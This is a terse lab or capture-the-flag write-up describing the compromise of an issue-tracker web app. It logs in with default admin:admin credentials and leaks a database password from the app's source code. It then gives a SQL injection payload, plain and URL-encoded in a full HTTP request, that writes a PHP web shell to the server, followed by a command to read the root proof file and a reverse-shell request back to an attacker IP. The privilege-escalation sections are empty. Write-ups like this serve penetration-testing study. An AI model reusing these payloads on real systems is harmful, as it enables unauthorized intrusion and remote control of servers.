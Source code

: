 #Pwned! 

## Nmap
```

```

## Nmap UDP


# Enumeration

## HTTP
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240925124008.png?raw=true)

admin:admin

download issuetracker.zip
analyze code
```
cat issuetracker/src/main/java/com/issue/tracker/issues/IssueController.java
```
issue_user:ManagementInsideOld797
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240926094027.png?raw=true)

sql credentials
possible sqli

```
/issue/checkByPriority?priority=' union select '<?php system($_GET["cmd"]); ?>' into outfile '/srv/http/cmd.php' -- -
```

```
POST /issue/checkByPriority?priority=%27%20%75%6e%69%6f%6e%20%73%65%6c%65%63%74%20%27%3c%3f%70%68%70%20%73%79%73%74%65%6d%28%24%5f%47%45%54%5b%22%63%6d%64%22%5d%29%3b%20%3f%3e%27%20%69%6e%74%6f%20%6f%75%74%66%69%6c%65%20%27%2f%73%72%76%2f%68%74%74%70%2f%63%6d%64%2e%70%68%70%27%20%2d%2d%20%2d HTTP/1.1

Host: 192.168.169.147:17445

Accept-Language: en-US

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Accept-Encoding: gzip, deflate, br

Cookie: JSESSIONID=89166675E7FFFB6F2143ED1480750891

Connection: keep-alive


```

```
http://192.168.169.147:30455/cmd.php?cmd=cat%20/root/proof.txt
```

reverse shell method
```
GET /cmd.php?cmd=sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.223%2F443%200%3E%261 HTTP/1.1

Host: 192.168.169.147:30455

Accept-Language: en-US

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Accept-Encoding: gzip, deflate, br

Cookie: JSESSIONID=89166675E7FFFB6F2143ED1480750891

Connection: keep-alive
```


# PrivEsc

## Manual

## Automated

### Peass
### Mimikatz


